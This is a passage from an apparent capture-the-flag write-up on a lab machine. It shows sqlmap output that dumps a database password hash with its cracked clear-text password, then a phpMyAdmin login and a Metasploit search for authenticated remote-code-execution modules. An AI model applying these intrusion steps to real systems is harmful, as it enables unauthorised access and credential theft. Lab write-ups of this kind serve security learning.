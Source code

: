 ~~~
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:59:50 /2019-11-09/

~~~

database management system users password hashes:
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou

[21:00:11] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

[*] ending @ 21:00:11 /2019-11-09/
{% endhighlight %}

After that, try to login to phpadmin with the credential.<br>
We can figure out that the version of phpmyadmin is "4.8.0"
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-10/2019-11-09-21-33-11.png)

Metasploit has several exploits for Authenticated remote code execution of phpmyadmin.
{% highlight shell %}
msf5 > search phpmyadmin

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     No     Telpho10 Backup Credentials Dumper
   1  auxiliary/scanner/http/phpmyadmin_login                                normal     Yes    PhpMyAdmin Login Scanner
   2  exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     No     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
   3  exploit/multi/http/phpmyadmin_lfi_rce                 2018-06-19       good       Yes    phpMyAdmin Authenticated Remote Code Execution
   4  exploit/multi/http/phpmyadmin_null_termination_exec   2016-06-23       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution
   5  exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution via preg_replace()
   6  exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  No     Zpanel Remote Unauthenticated RCE
   7  exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  No     PhpMyAdmin Config File Code Injection
   8  post/linux/gather/phpmyadmin_credsteal                                 normal     No     Phpmyadmin credentials stealer


msf5 >
{% endhighlight %}
